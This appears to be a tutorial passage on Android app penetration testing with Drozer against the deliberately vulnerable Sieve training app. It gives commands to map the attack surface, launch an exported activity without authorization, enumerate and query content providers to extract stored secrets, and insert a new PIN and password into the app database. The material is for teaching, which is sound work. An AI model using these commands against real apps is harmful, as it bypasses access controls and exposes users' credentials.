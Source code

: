 - Gathering package infor `app.package.info`

Syntax-:`run app.package.info -a <package's identifier>`

![image](https://github.com/user-attachments/assets/d362da5b-a9a0-47b9-aa85-0adc1bfcaed7)

- Identify the attack surface with `app.package.attacksurface`, if an app is debuggable,we can add adb and step through the code.

Syntax-:`run app.package.attacksurface <identifier>`

![image](https://github.com/user-attachments/assets/307a44e3-246c-48c2-92ea-e61a3370b136)

- Spotting activities allowed in the app with `app.activity.info`

Syntax-:`run app.activity.info -a <identifier>`

![image](https://github.com/user-attachments/assets/831022ef-7607-436e-a1df-dc70addc2da7)

- Use `help [module]` to check on more info on a module.

![image](https://github.com/user-attachments/assets/4658ac7d-1018-453f-addc-6669a5814211)

- In the image detailing the actions of `app.package.info`, an exported activity `com.mwr.example.sieve.PWList` can be carried without authorization or permission.We will use `app.package.start` to start it and exploit the activity.

Syntax-:` run app.activity.start --component [identifier] [activity]`

![image](https://github.com/user-attachments/assets/f54cc3e6-eb5d-4dbb-9e84-fa07b9306f22)

![image](https://github.com/user-attachments/assets/aaa1e730-39ca-4393-b473-e6e0a00b9213)

- Reading from Content-provider,module `app.provider.info` can be used to gather the content information exported from the app.

Syntax-:`run app.provider.info -a [identifier]`

![image](https://github.com/user-attachments/assets/b5da396e-8f2b-4930-a46b-46b722d66b36)

- Use module `scanner.provider.finduris` to scan for multiple urls and define a list of possible urls

Syntax-:`run scanner.provider.finduris -a [identifier]`

![image](https://github.com/user-attachments/assets/7fe72cca-a14c-4fb7-8a3f-7391961289de)

- Then, use module `app.provider.query` to grab the secrets

Syntax-:`run app.provider.query content://[url]`

![image](https://github.com/user-attachments/assets/a26e2495-7bb2-4074-9ccb-ce2200fa76f4)

- Inserting a string into a sqlite database

```
run app.provider.insert <content uris> --string pin 1111 --string Password H4ck3d
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
```

